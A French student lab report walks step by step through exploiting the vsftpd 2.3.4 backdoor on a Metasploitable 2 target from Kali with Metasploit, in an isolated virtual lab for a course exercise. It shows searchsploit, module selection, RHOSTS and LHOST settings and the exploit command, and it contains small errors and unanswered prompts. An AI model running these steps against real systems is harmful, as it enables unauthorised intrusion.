# TD 4 — De la vulnérabilité validée à l'accès contrôlé

## 📋 Contexte et Objectifs

Vous avez terminé les phases de reconnaissance, scanning, énumération et analyse des vulnérabilités. Vous avez identifié une faiblesse potentielle sur une cible. L’objectif de cette séance est de franchir l’étape de l’exploitation contrôlée.

* **Objectif pédagogique :** Démontrer que l’exploitation n’est pas un « clic au hasard », mais le résultat d’un raisonnement structuré. Vous devez valider un accès, en comprendre le contexte, et savoir vous arrêter avant d’entrer en post-exploitation.

---

## 🛠️ Prérequis techniques

1. **Machines virtuelles :** Machine Kali Linux (attaquant) et Metasploitable 2 (cible) allumées et connectées sur le réseau virtuel isolé.
2. **Installation de l'outil d'exploitation :** En vous appuyant sur vos connaissances en administration Linux et les notes de cours, assurez-vous que Metasploit Framework est installé et à jour sur votre machine Kali. Si ce n'est pas le cas, procédez à son installation via le gestionnaire de paquets de votre distribution avant de commencer le TD.

---

## 📝 Étapes du TD

### Étape 1 : Vérification de l'environnement et des prérequis

#### 1.1. Vérification de la connectivité réseau

On a tout d'abord vérifier l'adresse ip de la machine virtuelle metasploitable, et on a ensuite essayé de ping la machine depuis notre machine kali-linux.





#### 1.2 Mettre a jour Kali et installer metasploitable

Installer Metasploit-Framework

``` bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall

### Après l'instalation tout initialiser
/opt/metasploit-framework/bin/msfconsole
```




## PARTIE A : Rappel et hypothèse

Lors de la semaine 6, votre énumération a révélé l’information suivante sur la cible (Metasploitable 2) :
`21/tcp open ftp vsftpd 2.3.4`

---

### 📝 Carnet de bord - Étape 1 : Analyse initiale

1. **Que cherchons-nous à vérifier à cette étape ?**
   * On vas alors chercher une vulnérabilité connue dans la version 2.3.4 de vsftpd.

2. **Quelle information possédons-nous déjà ?**
   * On a la version, le service et on sait que le port est ouvert.

3. **Pourquoi pensons-nous qu’une vulnérabilité peut être applicable ?**
   * On pense qu'il y a un risque qu'une vulnérabilité soit applicable, car il accepte les connexions anonymous.

4. **Pourquoi cette information n'est-elle à ce stade QU'UN CANDIDAT à l’exploitation ?** *(Référez-vous au principe "outil ≠ conclusion" des notes de cours)*
   * Pour l'instant ce ne sont que des théories, car on a seulement trouvé ces informations et on n'a pas fait de recherches approfondies pour vérifier si nos doutes sont fondés. Il y a aussi des risques de faux positifs.

## PARTIE B : Recherche et compréhension de l'Exploit

Avant de lancer quoi que ce soit, nous devons comprendre l'arme que nous allons utiliser. Référez-vous aux notes de cours et aux recherches pour réaliser les manipulations.

---

### 🔨 Manipulation 1 : Recherche locale d'exploits


```bash
searchsploit vsftpd 2.3.4
```



### 🔬 Manipulation 2 : Recherche et examen dans the framework

Utilisez la commande de recherche interne du framework pour localiser le module pertinent.

```bash
search vsftpd 2.3.4
info 0
```




## PARTIE C : Configuration et prédiction

Dans le framework, vous devez maintenant préparer l'environnement d'exécution.

---

### ⚙️ Manipulation 3 : Configuration du module

**Sélection du module identifié :**
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   show options
   ```

   

   ```bash
   set RHOSTS 192.***.***.***
   set LHOST 192.***.***.***
   ```
   

### 📝 Carnet de bord : Prédiction

1. **Quel résultat attendons-nous ?**
   * *[Insérer votre réponse ici]*

2. **Quel type d’accès pourrait être obtenu ?**
   * *[Insérer votre réponse ici]*

3. **Comment saurons-nous si l’exploitation a réellement réussi ? (Quel message précis doit s'afficher dans la console ?)**
   * *[Insérer votre réponse ici]*

## PARTIE D : Exploitation Contrôlée et Preuve Minimale

Vous avez vérifié les paramètres. Le mandat autorise la démonstration de l'accès.

---

### 🚀 Manipulation 4 : Exécution et validation

**Lancement de l'exploit :**
   ```bash
   exploit
   ```


On vas vérifier si on est sur la bonne machine avec ip a

   ```bash
   ipconfig
   ```



